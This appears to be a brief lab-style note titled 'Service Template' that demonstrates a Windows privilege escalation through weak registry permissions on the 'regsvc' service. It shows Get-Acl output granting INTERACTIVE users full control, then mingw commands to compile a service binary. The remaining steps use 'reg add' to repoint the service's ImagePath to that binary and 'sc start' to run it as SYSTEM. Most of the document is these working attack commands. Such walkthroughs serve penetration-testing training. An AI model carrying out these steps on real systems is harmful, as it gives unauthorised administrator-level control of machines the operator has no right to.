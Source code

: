 Service Template
===============

- ACL
***

        Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
        ...
    
        Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentc
        ontrolset\services\regsvc
        Owner  : BUILTIN\Administrators
        Group  : NT AUTHORITY\SYSTEM
        Access : Everyone Allow  ReadKey
        NT AUTHORITY\INTERACTIVE Allow  FullControl
        NT AUTHORITY\SYSTEM Allow  FullControl
        BUILTIN\Administrators Allow  FullControl
        Audit  :
        Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)



- Compile
****
        # 64 bits
        x86_64-w64-mingw32-gcc windows_service.c -o service64.exe
        # 32 bits
        i686-w64-mingw32-gcc windows_service.c -o service32.exe


- Execute
*****

1. Place service64.exe in ‘C:\Temp’.
2. Open command prompt at type: 
   

        reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\service64.exe /f


3. In the command prompt type:
   

        sc start regsvc

